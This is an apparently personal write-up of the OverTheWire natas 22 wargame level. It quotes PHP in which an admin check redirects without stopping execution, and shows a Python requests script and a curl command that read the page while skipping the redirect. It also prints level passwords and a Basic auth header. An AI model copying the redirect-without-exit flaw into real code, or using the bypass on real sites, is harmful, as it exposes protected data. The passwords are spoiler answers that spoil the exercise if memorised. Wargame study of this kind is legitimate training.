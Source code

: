 ```yaml
---
title: natas 22 walkthrough
description: over the wire natas 22
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-22 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 22 walkthrough
    order: 30
---
```

# Description
> Username: natas22
> 
> URL:      http://natas22.natas.labs.overthewire.org

## Source Code
```php
<?php
session_start();

if (array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if (!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
        header("Location: /");
    }
}
?>

<?php
if (array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
}
?>
```

---
# Progress
## Observation
`revelio` is needed to be added into query while we send a get request. After that, one should get the content below.
## Trial
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas22"
password = "91awVM9oDiUGm33JdzM7RVLBS8bz9n0s"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas22.natas.labs.overthewire.org/" 
    payload = "?revelio=3" 
    response = requests.get(main_url+payload, auth=authentication)
    if "You are an admin" in get_content(response):
        print(get_content(response))
    else:
        print("failed")

main()
```
I was wrong. I always get status code 200 and an empty page, while I can get the status code 302 (redirection) via chrome. Does python request automatically redirect?
```bash
$ curl --header 'Authorization: Basic bmF0YXMyMjo5MWF3Vk05b0RpVUdtMzNKZHpNN1JWTEJTOGJ6OW4wcw==' --request GET http://natas22.natas.labs.overthewire.org/\?revelio\=3`
```
qjA8cOoKFTzJhtV0Fzvt92fgvxVnVRBj

Well, it seems I guess correctly. The auto redirection can be turned off by setting the argument to false.
```python
response = requests.get(main_url+payload, auth=authentication, allow_redirects=False)
```

---
# Hint

---
# Solving
## Category
- 
## Techniques
- 
## Tools
- 